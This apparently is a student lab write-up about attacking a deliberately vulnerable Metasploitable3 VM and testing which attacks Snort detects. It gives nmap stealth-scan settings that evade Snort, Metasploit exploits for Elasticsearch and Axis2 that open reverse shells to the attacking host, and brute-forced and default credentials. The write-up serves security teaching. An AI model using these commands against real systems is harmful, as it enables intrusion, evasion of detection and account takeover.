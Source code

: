 # Is it easier to fix the application than to detect attacks?

## Background
I configured and ran `Metasploitable3` in a VM on a Linux Mint host
(IP address `192.168.1.6`), following instructions on the course project
website, and installed `Snort` with rules configured from third-party
instructions [1, 2]. Snort was run with the command

`snort -A console -i1 -c c:\Snort\etc\snort.conf -l c:\Snort\log -K ascii`

    [1] https://ttcshelbyville.wordpress.com/2014/03/30/defending-your-network-with-snort-for-windows/
    [2] https://www.securityarchitecture.com/learning/intrusion-detection-systems-learning-with-snort/configuring-snort/#step1

## Results
Attacks were carried out using Kali Linux 18.1 in a separate VM (IP address
`192.168.1.200`). `nmap` was used for scanning (attacks one and two), and the
default Kali install of `metasploit` was used for exploitation
(attacks three to five).

Attacks one, three, and four were detected by Snort. Attacks two and five were
not detected. The question of whether it is easier to fix the application or
detect attacks is addressed in the conclusion.

### Attack 1: nmap intense scan (Detected)

The first attack was an intense port scan with `nmap -T4 -p 1-65535 -A -v 192.168.1.6`.
This discovered potentially-vulnerable services on the Windows host:

    Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-02 12:54 GMT
    Nmap scan report for 192.168.1.6

    PORT      STATE SERVICE  VERSION
    22/tcp    open  ssh      OpenSSH 7.1 (protocol 2.0)
    3000/tcp  open  http     WEBrick httpd 1.3.1 (Ruby 2.3.3 (2016-11-21))
    4848/tcp  open  ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
    8022/tcp  open  http     Apache Tomcat/Coyote JSP engine 1.1
    8080/tcp  open  http     Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
    8282/tcp  open  http     Apache Tomcat/Coyote JSP engine 1.1
    8383/tcp  open  ssl/http Apache httpd
    8484/tcp  open  http     Jetty winstone-2.8     
    8585/tcp  open  http     Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
    9200/tcp  open  http     Elasticsearch REST API 1.1.1 (name: Tarot; Lucene 4.7)

    Aggressive OS guesses: Microsoft Windows Server 2008 or 2008 Beta 3 (91%)

However, the scan was detected by Snort, with numerous `Priority 2` alerts
logged, e.g.   

- Consecutive TCP small segments exceeding threshold [Classification: Potentially Bad Traffic] 192.168.1.200 -> 192.168.1.6
- Reset outside window [Classification: Potentially Bad Traffic]
- TCP session without 3-way handshake [Classification: Potentially Bad Traffic]

The intense scan was therefore clearly identified by Snort.

### Attack 2: nmap stealth scanning (Not Detected)

The Snort detection in the previous attack could be successfully avoided using
more careful tuning of nmap options. For example, a scan of 100 ports using
`nmap -T2 -F 192.168.1.6` completed in 150 seconds and identified services on
port 22 (ssh), and 8080 (http) without detection. `nmap -T2 -A 192.168.1.6`
took 1214 seconds to complete, and retrieved more results; however, it
triggered a few Snort alerts when scanning port 8383, and might have been
detected. Scanning with `-T1` specified triggered no alerts, but took a very
long time to complete.

Therefore, it appears straightforward to carry out reconnaissance and scanning
without triggering Snort if the attacker is patient, limits the scanning rate,
and carefully selects ports to be scanned.  

### Attack 3: access via Elasticsearch CVE-2014-3120 (Detected)

Running `nmap --script nmap-vulners,vulscan --script-args vulscandb=scipvuldb.csv -sV 192.168.1.6` identified numerous potential vulnerabilities. My first exploit
was against Elasticsearch:  

    use multi/elasticsearch/script_mvel_rce
    set RHOST 192.168.1.6

this was then run with the exploit command

    msf exploit(multi/elasticsearch/script_mvel_rce) > exploit

    Started reverse TCP handler on 192.168.1.200:4444
    Trying to execute arbitrary Java...
    Discovering remote OS...
    Remote OS is 'Windows Server 2008 R2'
    Discovering TEMP path
    TEMP path identified: 'C:\Windows\TEMP\'
    Sending stage (53837 bytes) to 192.168.1.6
    Meterpreter session 2 opened (192.168.1.200:4444 -> 192.168.1.6:50615) at 2018-03-11 11:32:50 +0000

A shell could then be opened on the remote system

    meterpreter > shell
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Program Files\elasticsearch-1.1.1>

However, this exploit led to a large number of alerts in the Snort logs
originating at port 50615 (used by Meterpreter) on the Kali host, and so would
have been easily detected. The attack also left `.tmp` and `.jar` files in
`C:\Windows\Temp` directory, which would provide evidence of compromise in the
case of later forensic analysis.

### Attack 4: Default password in Apache Axis2 CVE-2010-0219 (Detected)

The deployed Apache Tomcat server includes a default password of `axis2` for
the `admin` account. This can be exploited to create a shell with metasploit

    use exploit/multi/http/axis2_deployer
    set RHOST 192.168.1.6

then

    msf exploit(multi/http/axis2_deployer) > exploit
    Started reverse TCP handler on 192.168.1.200:4444
    http://192.168.1.6:8282/axis2/axis2-admin [Apache-Coyote/1.1] [Axis2 Web Admin Module] successful login 'admin' : 'axis2'
    Successfully uploaded
    Polling to see if the service is ready
    Sending stage (53837 bytes) to 192.168.1.6
    Meterpreter session 2 opened (192.168.1.200:4444 -> 192.168.1.6:50810) at 2018-03-11 11:48:32 +0000
    Deleted webapps/axis2/WEB-INF/services/oaPWWciG.jar

a shell could again be opened on the remote systems

    meterpreter > shell
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Program Files\Apache Software Foundation\tomcat\apache-tomcat-8.0.33>

Again, the exploit was detected by Snort, which showed a few log entries
originating on port 50810 (used by Meterpreter) on the Kali host. However, there
were far fewer entries than in attack 3, and it is possible that these might
have been overlooked on a busy system.

### Attack 5: Default password on Wordpress wp-admin (Not Detected)

I ran a few more successful metasploit attacks, but all were detected by Snort,
so for the final attack, I assumed that attack 4 (which was the 'quietest') was
not immediately detected. I opened a remote shell and ran `net users`, which
returned

    User accounts for \\METASPLOITABLE3
    ---------------------------------------------------------------------------
    Administrator     anakin_skywalker    artoo_detoo
    ben_kenobi        boba_fett           c_three_pio
    chewbacca         darth_vader         greedo
    Guest             han_solo            jabba_hutt
    jarjar_binks      kylo_ren            lando_calrissian
    sshd_server       vagrant

I was able to brute-force `c_three_pio` with `hydra` and Kali's `rockyou.txt`
wordlist

    sshpass -p pr0t0c0l ssh c_three_pio@192.168.1.6
    Last login: Sun Mar 11 16:45:46 2018 from 192.168.1.200
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Program Files\OpenSSH\home\c_three_pio>

but this would have been easily detected due to a large number of failed logins.
However, I wrote a python script to look for passwords that were the same as
the username, and managed to log in to

    http://192.168.1.6:8585/wordpress/wp-admin/

with `vagrant:vagrant`. This was not detected by Snort, and it appears to be a
routine login to `wp-admin`, but a wordpress administrator might have noticed
failed logins from other users. However, this was the closest that I was able to
get to an system compromise without any detection from Snort.  

## Conclusion

While it was relatively easy to carry out scanning without detection, Snort
generally detected exploits launched from metasploit: I opened remote shells
through half a dozen different exploits, and all were detected to
some extent. In the end I had to 'cheat' a little and assume my username
enumeration went unnoticed in order to achieve an 'undetected' compromise.

However, it was very easy to compromise the system via weak passwords and
unpatched vulnerabilities in software, and while Snort detected many of these
attempts, the attack would have succeeded before an administrator could respond.
Therefore, while detecting attacks is important, it is also essential to fix the
applications to reduce the attack surface of the system: the answer to the
project question is 'both'!
